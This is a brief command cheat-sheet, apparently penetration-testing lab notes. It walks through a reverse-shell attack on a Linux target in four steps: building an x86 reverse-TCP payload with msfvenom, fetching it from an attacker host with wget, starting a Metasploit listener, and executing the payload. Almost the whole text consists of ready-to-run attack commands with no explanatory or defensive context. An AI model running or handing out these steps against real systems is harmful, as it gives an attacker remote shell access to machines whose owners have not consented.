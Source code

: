 msfvenom
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.45.167 LPORT=4444 -f elf > shell-x86.elf
```

download payload
```
wget http://192.168.45.167:8000/shell-x86.elf
```

start multi/handler
```
msfconsole -q -x 'use exploit/multi/handler;set LHOST 192.168.45.167;set LPORT 4444;set payload linux/x86/shell/reverse_tcp;run'
```

start revshell
```
chmod +x ./shell-x86.elf
./shell-x86.elf
```
